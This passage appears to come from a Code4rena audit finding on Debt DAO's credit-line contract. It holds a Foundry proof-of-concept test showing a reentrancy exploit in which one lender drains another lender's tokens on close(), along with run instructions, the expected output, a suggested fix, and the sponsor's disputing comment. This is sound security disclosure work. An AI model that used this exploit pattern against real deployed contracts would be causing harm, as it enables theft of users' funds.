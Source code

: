             //borrow 1 ether
            bytes32 id_first = line.ids(0);
            vm.startPrank(borrower);
            line.borrow(id_first, lenderOneAmount);
            vm.stopPrank();
            
            // Borrowers adds an additional credit line from lender2
            vm.startPrank(borrower);
            line.addCredit(dRate, fRate, lenderTwoAmount, address(tokenUsed), address(lender2));
            vm.stopPrank();
    
            // Lender2 adds an additional credit line from  
            vm.startPrank(lender2);
            tokenUsed.approve(address(line), lenderTwoAmount);
            line.addCredit(dRate, fRate, lenderTwoAmount, address(tokenUsed),  address(lender2));
            vm.stopPrank();
    
            // repay all debt to lender 1
            vm.startPrank(borrower);
            tokenUsed.approve(address(line), lenderOneAmount);
            line.depositAndRepay(lenderOneAmount);
            line.close(id_first);
            vm.stopPrank();
            
            //validate that lender1 was able to steal lender2 tokens
            assert(tokenUsed.balanceOf(address(lenderOneContract)) == lenderOneAmount + lenderTwoAmount);
        }

To run the POC execute: `forge test -v`

Expected output:

    [PASS] test_reentrancy() (gas: 1636410)
    Test result: ok. 1 passed; 0 failed; finished in 1.71ms

To get full trace execute: `forge test -vvvv`

### [](#tools-used-4)Tools Used

VS Code, Foundry.

### [](#recommended-mitigation-steps-10)Recommended Mitigation Steps

Send tokens only at the end of `_close(Credit memory credit, bytes32 id)` or add a reentrancyGuard.

**[kibagateaux (Debt DAO) disputed and commented](https://github.com/code-423n4/2022-11-debtdao-findings/issues/160#issuecomment-1332394657):**

> Similar comments to [#176](https://github.com/code-423n4/2022-11-debtdao-findings/issues/176). Both Lenders would have to agree to use tokens that have inherent reentrancy attacks built into the token. This issue feels much more valid than the other one.
> 
> In my opinion its not valid to say “if you add malicious things, malicious things happen”. If I didn’t want token reentrancy attacks, I simply wouldn’t add tokens with explicit arbitrary reentrancy abilities.
